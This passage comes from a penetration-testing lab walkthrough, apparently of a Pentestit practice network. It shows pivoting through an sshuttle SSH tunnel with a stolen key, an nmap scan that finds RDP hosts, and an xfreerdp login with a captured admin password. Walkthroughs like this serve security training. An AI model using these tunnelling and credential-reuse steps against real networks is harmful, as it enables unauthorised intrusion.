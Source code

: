 Awesome, now that we know we have access let's open up another Console and utilize SSHuttle to create an SSH Tunnel between our Kali Machine and the three subnets.

```console
root@kali:~/pentestit# sshuttle -e "ssh -i morgan.key" -r morgan@172.16.0.252 192.168.10.0/24 192.168.11.0/24 192.168.12.0/24
client: Connected.
```

Once done, either from your Kali Machine or the Router we can utilize Nmap to Footprint the DIR Subnet of __192.168.12.1__.

```console
morgan@tl11-172-16-0-252:~$ nmap -sV -Pn -n 192.168.12.1-3

Starting Nmap 6.47 ( http://nmap.org ) at 2017-07-19 04:17 MSK
Nmap scan report for 192.168.12.1
Host is up (0.00069s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE        VERSION
3389/tcp open  ms-wbt-server?

Nmap scan report for 192.168.12.2
Host is up (0.00050s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Nmap scan report for 192.168.12.3
Host is up (0.00077s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE        VERSION
3389/tcp open  ms-wbt-server?

Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 3 IP addresses (3 hosts up) scanned in 102.57 seconds
```

It seems these are Windows Devices running RDP, so we will have to utilize XFreeRDP to be able to connect to them with the credentials we found from the AD Server.

## Utilizing Compromised Credentials for RDP Access

After some time testing, I found out that the __admin__ account only had RDP Access to the __192.168.12.2__ computer. So, let's RDP into the device and see what we have to work with.

```console
root@kali:~/pentestit# xfreerdp /u:admin /p:77_GrantedSuperAdmin_77 /v:192.168.12.2
connected to 192.168.12.2:3389
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@           WARNING: CERTIFICATE NAME MISMATCH!           @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
The hostname used for this connection (192.168.12.2) 
does not match the name given in the certificate:
Common Name (CN):
	ARM-1
A valid certificate for the wrong name should NOT be trusted!
Certificate details:
	Subject: CN = ARM-1
	Issuer: CN = ARM-1
	Thumbprint: 6e:3f:1f:e6:15:ee:13:c5:9f:f6:87:db:83:32:86:a4:c8:bb:7e:6f
The above X.509 certificate could not be verified, possibly because you do not have the CA certificate in your certificate store, or the certificate has expired. Please look at the documentation on how to create local certificate store for a private CA.
Do you trust the above certificate? (Y/N) Y
```
